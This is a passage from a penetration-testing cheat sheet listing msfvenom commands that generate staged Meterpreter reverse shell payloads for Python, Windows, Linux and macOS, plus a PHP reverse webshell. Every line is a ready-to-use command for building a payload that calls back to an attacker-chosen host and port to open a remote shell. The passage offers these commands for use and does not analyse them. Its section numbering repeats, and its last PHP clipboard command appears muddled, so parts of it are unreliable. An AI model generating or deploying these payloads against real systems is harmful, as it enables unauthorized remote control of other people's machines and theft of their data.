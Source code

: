 ##### 2.6.1.1 - Staged Python Meterpreter Reverse Shells

`$ msfvenom -p python/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_tcp_ssl lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.1.2 - Staged Windows Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x64.exe`

##### 2.6.1.2 - Staged Linux Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o met-x64`

##### 2.6.1.3 - Staged Mac OSX Meterpreter Reverse Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o met-x64`

##### 2.6.1.4 - Staged Reverse Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

